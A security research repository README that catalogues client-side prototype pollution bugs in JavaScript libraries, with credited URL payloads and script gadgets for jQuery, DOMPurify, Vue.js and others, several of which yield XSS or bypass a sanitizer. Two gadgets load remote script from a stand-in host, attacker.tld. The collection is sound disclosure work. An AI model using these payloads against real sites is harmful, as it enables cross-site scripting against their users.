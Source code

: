 # Client-Side Prototype Pollution

## Intro

If you are unfamiliar with Prototype Pollution Attack, you should read the following first:  
[JavaScript prototype pollution attack in NodeJS](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf) by Olivier Arteau  
[Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) by Michał Bentkowski

In this repository, I am trying to collect examples of libraries that are vulnerable to Prototype Pollution due to `document.location` parsing and useful script gadgets that can be used to demonstrate the impact.

## Prototype Pollution

| Name                                                              | Payload                                                                  | Refs                                        | Found by                                         |
|-------------------------------------------------------------------|--------------------------------------------------------------------------|---------------------------------------------|--------------------------------------------------|
| Wistia Embedded Video (**Fixed**)                                 | `?__proto__[test]=test`<br>`?__proto__.test=test`                        | [[1]](https://hackerone.com/reports/986386) | [William Bowling](https://twitter.com/wcbowling) |
| [jQuery query-object plugin](/pp/jquery-query-object.md)          | `?__proto__[test]=test`<br>`#__proto__[test]=test`                       |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery Sparkle](/pp/jquery-sparkle.md)                           | `?__proto__.test=test`<br>`?constructor.prototype.test=test`             |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [V4Fire Core Library](/pp/v4fire-core.md)                         | `?__proto__.test=test`<br>`?__proto__[test]=test`<br>`?__proto__[test]={"json":"value"}`|                              | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [backbone-query-parameters](/pp/backbone-qp.md)                   | `?__proto__.test=test`<br>`?constructor.prototype.test=test`<br>`?__proto__.array=1\|2\|3`| [[1]](https://bugcrowd.com/disclosures/57b28008-4653-4dec-88c3-4d38e40023ff/toolbox-teslamotors-com-html-injection-via-prototype-pollution-potential-xss) | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery BBQ](/pp/jquery-bbq.md)                                   | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jquery-deparam](/pp/jquery-deparam.md)                           | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [MooTools More](/pp/mootools-more.md)                             | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [Swiftype Site Search (**Fixed**)](/pp/swiftype-site-search.md)   | `#__proto__[test]=test`                                                  |                                             | [s1r1us](https://twitter.com/S1r1u5_)            |
| [CanJS deparam](/pp/canjs-deparam.md)                             | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Rahul Maini](https://twitter.com/iamnoooob)     |
| [Purl (jQuery-URL-Parser)](/pp/purl.md)                           | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`<br>`#__proto__[test]=test`|                            | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [HubSpot Tracking Code (**Fixed**)](/pp/hubspot.md)               | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`<br>`#__proto__[test]=test`|                            | [Sergey Bobrov](https://twitter.com/Black2Fan)   |

## Script Gadgets

| Name                                                    | Payload                                                                       | Impact            | Refs                                              | Found by                                            |
|---------------------------------------------------------|-------------------------------------------------------------------------------|-------------------|---------------------------------------------------|-----------------------------------------------------|
| [Wistia Embedded Video](/gadgets/wistia-video.md)       | `?__proto__[innerHTML]=<img/src/onerror=alert(1)>`                            | XSS               | [[1]](https://hackerone.com/reports/986386)       | [William Bowling](https://twitter.com/wcbowling)    |
| [jQuery $.get >= 3.0.0](/gadgets/jquery.md)             | `?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script`               | XSS               |                                                   | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [jQuery $.getScript >= 3.4.0](/gadgets/jquery.md)       | `?__proto__[src][]=data:,alert(1)//`                                          | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [jQuery $.getScript 3.0.0 - 3.3.1](/gadgets/jquery.md)  | `?__proto__[url]=data:,alert(1)//`                                            | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [jQuery $(html)](/gadgets/jquery.md)                    | `?__proto__[div][0]=1&__proto__[div][1]=<img/src/onerror%3dalert(1)>&__proto__[div][2]=1`| XSS    |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $(x).off](/gadgets/jquery.md)                   | `?__proto__[preventDefault]=x&__proto__[handleObj]=x&__proto__[delegateTarget]=<img/src/onerror%3dalert(1)>`| XSS    |                                | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Google reCAPTCHA](/gadgets/recaptcha.md)               | `?__proto__[srcdoc][]=<script>alert(1)</script>`                              | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Twitter Universal Website Tag](/gadgets/twitter-uwt.md)| `?__proto__[hif][]=javascript:alert(1)`                                       | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Tealium Universal Tag](/gadgets/tealium-utag.md)       | `?__proto__[attrs][src]=1&__proto__[src]=//attacker.tld/js.js`                | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Akamai Boomerang](/gadgets/akamai-boomerang.md)        | `?__proto__[BOOMR]=1&__proto__[url]=//attacker.tld/js.js`                     | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Lodash <= 4.17.15](/gadgets/lodash.md)                 | `?__proto__[sourceURL]=%E2%80%A8%E2%80%A9alert(1)`                            | XSS               | [[1]](https://github.com/lodash/lodash/pull/4518) | [Alex Brasetvik](https://twitter.com/alexbrasetvik) |
| [sanitize-html](/gadgets/sanitize-html.md)              | `?__proto__[*][]=onload`                                                      | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [sanitize-html](/gadgets/sanitize-html.md)              | `?__proto__[innerText]=<script>alert(1)</script>`                             | Bypass            | [[1]](https://github.com/apostrophecms/sanitize-html/commit/0fe551c2c6fac1277c0b9688263bd61acc52baf8)| [Hpdoger](https://twitter.com/hpdoger)              |
| [js-xss](/gadgets/js-xss.md)                            | `?__proto__[whiteList][img][0]=onerror&__proto__[whiteList][img][1]=src`      | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src`          | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[documentMode]=9`                                                  | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Closure](/gadgets/closure.md)                          | `?__proto__[*%20ONERROR]=1&__proto__[*%20SRC]=1`                              | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Closure](/gadgets/closure.md)                          | `?__proto__[CLOSURE_BASE_PATH]=data:,alert(1)//`                              | XSS               | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Marionette.js / Backbone.js](/gadgets/marionette.md)   | `?__proto__[tagName]=img&__proto__[src][]=x:&__proto__[onerror][]=alert(1)`   | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Adobe Dynamic Tag Management](/gadgets/adobe-dtm.md)   | `?__proto__[src]=data:,alert(1)//`                                            | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Swiftype Site Search](/gadgets/swiftype-site-search.md)| `?__proto__[xxx]=alert(1)`                                                    | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Embedly Cards](/gadgets/embedly.md)                    | `?__proto__[onload]=alert(1)`                                                 | XSS               |                                                   | [Guilherme Keerok](https://twitter.com/k33r0k)      |
| [Segment Analytics.js](/gadgets/segment-analytics.md)   | `?__proto__[script][0]=1&__proto__[script][1]=<img/src/onerror%3dalert(1)>&__proto__[script][2]=1`| XSS               |                               | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Knockout.js](/gadgets/knockout.md)                     | `?__proto__[4]=a':1,[alert(1)]:1,'b&__proto__[5]=,`                           | XSS               |                                                   | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Zepto.js](/gadgets/zepto.md)                           | `?__proto__[onerror]=alert(1)`                                                | XSS               | [[1]](https://xz.aliyun.com/t/8552)               | [lih3iu](https://twitter.com/lih3iu)                |
| [Sprint.js](/gadgets/sprint.md)                         | `?__proto__[div][intro]=<img%20src%20onerror%3dalert(1)>`                     | XSS               | [[1]](https://xz.aliyun.com/t/8552)               | [lih3iu](https://twitter.com/lih3iu)                |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[v-if]=_c.constructor('alert(1)')()`                               | XSS               |                                                   | [POSIX](https://twitter.com/po6ix)                |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[attrs][0][name]=src&__proto__[attrs][0][value]=xxx&__proto__[xxx]=data:,alert(1)//&__proto__[is]=script`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[v-bind:class]=''.constructor.constructor('alert(1)')()`        | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [r00timentary](https://ctftime.org/team/32783)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[data]=a&__proto__[template][nodeType]=a&__proto__[template][innerHTML]=<script>alert(1)</script>`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [SuperGuesser](https://twitter.com/SuperGuesser)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[props][][value]=a&__proto__[name]=":''.constructor.constructor('alert(1)')(),"`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [st98_](https://twitter.com/st98_)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[template]=<script>alert(1)</script>`  | XSS | [[1]](https://github.com/aszx87410/ctf-writeups/issues/24) | [huli](https://github.com/aszx87410/)               |